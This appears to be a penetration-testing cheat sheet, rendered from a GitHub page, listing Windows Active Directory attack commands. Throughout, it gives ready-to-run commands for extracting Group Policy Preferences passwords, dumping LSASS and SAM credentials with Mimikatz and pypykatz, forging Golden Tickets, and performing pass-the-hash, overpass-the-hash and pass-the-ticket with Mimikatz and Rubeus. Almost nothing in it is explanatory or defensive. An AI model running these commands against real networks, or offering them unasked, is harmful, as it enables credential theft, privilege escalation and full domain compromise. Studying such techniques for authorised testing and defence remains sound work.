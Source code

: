 
## GPPPassword

* CLI
  * `findstr /S /I cpassword \\<domain>\sysvol\<domain>\policies\*.xml`
* Impacket
  * `Get-GPPPassword.py <domain>/<user>:<pass>@<target> -dc-ip <ip>`


## LSASS parsing

* Mimikatz
   * `.\mimikatz.exe "sekurlsa::minidump C:\Temp\debug.dmp" "sekurlsa::logonpasswords" "exit" > lsass.txt`
* Pypykatz
   * `pypykatz lsa minidump [-o lsass.txt] debug.dmp`


## Mimikatz

* Elevate privileges
   * `privilege::debug`
* Dump LSASS
   * `sekurlsa::logonpasswords`
* Dump SAM
   * `lsadump::sam`
* Golden Ticket
   * `kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /krbtgt:<ntlm> /ptt`
* Pass-the-Hash
   * `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm> /run:"mstsc.exe /restrictedadmin"`
   * Some notes about passing the hash with mstsc.exe:
     * "Restricted Admin Mode" ensures that credentials are NOT stored in the LSASS memory on the remote server.
       * Value 0 = Enabled
       * Value 1 = Disabled
     * However, if this setting is enabled, you CAN log in with an NTLM hash.
     * This setting is not enabled by default on systems. So PTH doesn't work by default.
* Over-Pass-The-Hash
   * `sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlm> /run:powershell`
* PTT
   * `sekurlsa::tickets /export`
   * `kerberos::ptt <ticket.kirbi>`


## Rubeus

* Dump TGTs
   * `Rubeus.exe dump /service krbtgt [/luid:<logonid>]`
* PTT
   * `Rubeus.exe ptt <ticket.kirbi>`
* Request TGT
   * `Rubeus.exe asktgt /domain:<domain> /user:<user> /rc4:<ntlm> /ptt`
